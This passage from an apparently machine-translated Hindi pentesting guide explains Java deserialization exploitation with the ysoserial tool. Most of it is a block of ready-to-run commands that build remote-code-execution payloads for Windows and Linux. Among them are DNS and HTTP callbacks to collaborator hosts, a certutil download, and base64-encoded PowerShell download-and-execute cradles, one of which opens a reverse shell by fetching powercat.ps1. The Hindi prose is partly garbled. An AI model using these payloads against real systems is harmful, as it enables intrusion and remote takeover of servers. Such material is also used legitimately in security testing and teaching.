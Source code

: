 ### **उत्पीड़न**

#### **ysoserial**

जावा उत्पीड़नों को उत्पीड़न करने के लिए मुख्य उपकरण [**ysoserial**](https://github.com/frohoff/ysoserial) है ([**यहाँ से डाउनलोड करें**](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar))। आप [**ysoseral-modified**](https://github.com/pimps/ysoserial-modified) का भी विचार कर सकते हैं जो आपको जटिल कमांड (उदाहरण के लिए पाइप्स के साथ) का उपयोग करने देगा।\
ध्यान दें कि यह उपकरण **`ObjectInputStream`** पर उत्पीड़न करने पर **केंद्रित** है।\
मैं **"URLDNS"** पेलोड का उपयोग करना शुरू करूंगा **RCE** पेलोड से पहले उसे जांचने के लिए कि क्या संधारण संभव है। फिर भी, ध्यान दें कि शायद "URLDNS" पेलोड काम नहीं कर रहा हो लेकिन अन्य RCE पेलोड काम कर रहा हो।
```bash
# PoC to make the application perform a DNS req
java -jar ysoserial-master-SNAPSHOT.jar URLDNS http://b7j40108s43ysmdpplgd3b7rdij87x.burpcollaborator.net > payload

# PoC RCE in Windows
# Ping
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections5 'cmd /c ping -n 5 127.0.0.1' > payload
# Time, I noticed the response too longer when this was used
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "cmd /c timeout 5" > payload
# Create File
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "cmd /c echo pwned> C:\\\\Users\\\\username\\\\pwn" > payload
# DNS request
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "cmd /c nslookup jvikwa34jwgftvoxdz16jhpufllb90.burpcollaborator.net"
# HTTP request (+DNS)
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "cmd /c certutil -urlcache -split -f http://j4ops7g6mi9w30verckjrk26txzqnf.burpcollaborator.net/a a"
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAYwBlADcAMABwAG8AbwB1ADAAaABlAGIAaQAzAHcAegB1AHMAMQB6ADIAYQBvADEAZgA3ADkAdgB5AC4AYgB1AHIAcABjAG8AbABsAGEAYgBvAHIAYQB0AG8AcgAuAG4AZQB0AC8AYQAnACkA"
## In the ast http request was encoded: IEX(New-Object Net.WebClient).downloadString('http://1ce70poou0hebi3wzus1z2ao1f79vy.burpcollaborator.net/a')
## To encode something in Base64 for Windows PS from linux you can use: echo -n "<PAYLOAD>" | iconv --to-code UTF-16LE | base64 -w0
# Reverse Shell
## Encoded: IEX(New-Object Net.WebClient).downloadString('http://192.168.1.4:8989/powercat.ps1')
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgAxAC4ANAA6ADgAOQA4ADkALwBwAG8AdwBlAHIAYwBhAHQALgBwAHMAMQAnACkA"

#PoC RCE in Linux
# Ping
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "ping -c 5 192.168.1.4" > payload
# Time
## Using time in bash I didn't notice any difference in the timing of the response
# Create file
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "touch /tmp/pwn" > payload
# DNS request
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "dig ftcwoztjxibkocen6mkck0ehs8yymn.burpcollaborator.net"
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "nslookup ftcwoztjxibkocen6mkck0ehs8yymn.burpcollaborator.net"
# HTTP request (+DNS)
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "curl ftcwoztjxibkocen6mkck0ehs8yymn.burpcollaborator.net" > payload
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "wget ftcwoztjxibkocen6mkck0ehs8yymn.burpcollaborator.net"
```